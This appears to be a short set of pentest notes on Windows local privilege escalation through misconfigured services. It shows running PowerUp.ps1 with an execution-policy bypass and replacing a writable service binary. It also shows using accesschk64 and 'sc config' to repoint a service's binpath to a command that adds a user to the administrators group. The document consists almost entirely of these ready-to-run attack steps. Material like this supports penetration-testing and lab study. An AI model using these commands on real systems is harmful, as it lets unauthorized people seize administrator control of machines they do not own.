

## Using PowerUp.ps1
 1. Open PowerShell
`cmd> powershell -ep bypass`
2. Import PowerUp module
`. ./PowerUp.ps1`
3. Run `Invoke-AllChecks`
4.  Checking service permissions...and find the **ServiceName** and the File location
5. Replace file with writable permissions (eg **vul_file.exe**) with compiled **file.exe**
6. `sc start <ServiceName>`

## Using accesschk64.exe
1. From command prompt on target, run:
`accesschk64.exe -wuvc Everyone *`
Look for **SERVICE_CHANGE_CONFIG**

2. Find Binary Path:
`sc qc <ServiceName>`

3. Change configuration to point to **file.exe**
`sc config <ServiceName> binpath= "net localgroup administrators <user> /add"`

4. Start service:
`sc start <Servicename>`
	